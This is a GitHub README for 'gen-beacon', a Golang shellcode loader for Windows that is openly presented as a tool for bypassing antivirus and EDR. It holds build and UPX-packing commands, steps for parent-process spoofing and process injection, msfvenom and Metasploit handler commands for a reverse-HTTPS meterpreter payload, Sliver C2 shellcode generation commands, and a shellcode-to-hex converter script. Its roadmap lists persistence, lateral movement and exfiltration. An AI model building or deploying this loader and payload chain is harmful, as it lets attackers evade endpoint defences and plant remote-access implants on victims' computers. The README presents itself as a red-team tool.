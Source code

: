 # Redteam Tool

💣 gen-beacon 💣

Windows Shellcode Loader written in Golang to bypass AV/EDR

## DESCRIPTION

Downloads shellcode hosted on Github or any Hosting Platform.

## INSTALLATION

### SETUP INSTRUCTIONS
```
go get github.com/D00MFist/Go4aRun/pkg/sliversyscalls/syscalls
go get golang.org/x/sys/windows
```

### QUICK USE
```
Bash:  export GOPATH="$HOME/go"; export GOOS="windows"
PSH:   $Env:GOOS = "windows"; $Env:GOARCH = "amd64"
Build: GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o loader.exe cmd/implant/main.go
```

### EDIT & BUILD
```
1. Change const url
2. Change block dll behavior: between "not allowing non-MS" and "only store" through nonms and onlystore vars
3. Change parentName var to change spoofed parent
4. Change programPath var to change process launched by parent which shellcode will inject into
5. Change creationFlags to change behavior of programPath var launching
6. Select a Proc Injection Method by comment/uncommenting the sections CreateRemoteThread or QueueUserAPC

go build -a -gcflags=all="-l -B" -ldflags="-s -w -H=windowsgui" -o loader.exe cmd/implant/main.go // EXE
go build -buildmode=c-shared -o loader.dll cmd/implant/main.go // DLL
```

### UPX PACKING

```
upx --best --ultra-brute loader.exe
```

### HEX SHELLCODE FOR METASPLOIT

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<HOST> LPORT=<PORT> -b '\x00' -f hex -o shellcode.txt
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST k.a.l.i
set LPORT 8443
run -j
```

### HEX SHELLCODE FOR SLIVER C2
```
generate --os windows --format shellcode --http <HOST>:<PORT> --skip-symbols --arch x86
generate --os windows --format shellcode --http <HOST>:<PORT> --skip-symbols --arch x64
http -l <PORT>
```

### HELPER

Convert Payload.bin to HEX by using Mgeeky's converter
```
python2 bin2shellcode-mgeeky.py payload.bin > a
```

```
#!/usr/bin/python
# Disasm of 64-bit binary:
#   $ objdump -b binary -D -m i386:x86-64 <file>
#
# Usage:
#   $ ./bin2shellcode.py <file> num
# Where:
#   num - number of bytes to convert into array.
#         `num` can be negative, resulting in `size-num`
#         bytes be converted.
import binascii
import sys
import re

if __name__ == '__main__':
  if len(sys.argv) < 2 or len(sys.argv) > 3:
    print "Usage: %s <file> [len]" % sys.argv[0] 
  else:
    f = open(sys.argv[1], 'rb')
    bytes = f.read()
    num = len(bytes)
    if len(sys.argv) > 2:
        # if [len] is negative - substract it from
        # total length.
        num0 = int(sys.argv[2])
        if num0 < 0 and -num0 <= num:
            num += num0 -1
        elif -num0 > num:
            print '[!] To large negative value. Fallback to 0.'
        else:
            num = num0

    array = 'char shellcode[%d] = \n\t"' % (num)
    for b in range(len(bytes)):
      if b > num: break 
      if b % 16 == 0 and b > 0:
        array += '"\n\t"'
      array += '\\x%02x' % ord(bytes[b])

    array += '";\n'

#    print array

    hexcode = binascii.b2a_hex(open(sys.argv[1], "rb").read()).decode()
    print("".join(re.findall("..", hexcode)))
```

#### Thanks

* https://github.com/D00MFist/Go4aRun

Related Blog Posts:

* https://posts.specterops.io/going-4-a-run-eb263838b944
* https://posts.specterops.io/going-4-a-hunt-66c9f0d7f32c
* https://github.com/matterpreter/DefenderCheck

References/ Resources:

* www.thepolyglotdeveloper.com/2018/02/encrypt-decrypt-data-golang-application-crypto-packages/
* https://medium.com/syscall59/a-trinity-of-shellcode-aes-go-f6cec854f992
* https://ired.team/offensive-security/defense-evasion/preventing-3rd-party-dlls-from-injecting-into-your-processes
* https://gist.github.com/rvrsh3ll/1e66f0f2c7103ff8709e5fd63ca346ac
* https://github.com/BishopFox/sliver
* https://github.com/bluesentinelsec/OffensiveGoLang
* https://github.com/djhohnstein/CSharpCreateThreadExample
* https://github.com/Ne0nd0g/merlin

## Contribute

Submit issues, add feature requests or pull requests.

## ToDo

* Payload AES Encryption
* Set lifetime span for payload
* Persistence - scripting with sliver nodejs for connectors
* Registry Startup
* Registry COM CLSID Object
* User Start Folder
* Enumeration
* Applocker bypass checks
* AV detection
* Post-Exploitation
* Network discovery
* Lateral Movement
* Scheduled Task
* Exfiltration

## License

This project is licensed under WTFWPL - see the License file for more details.
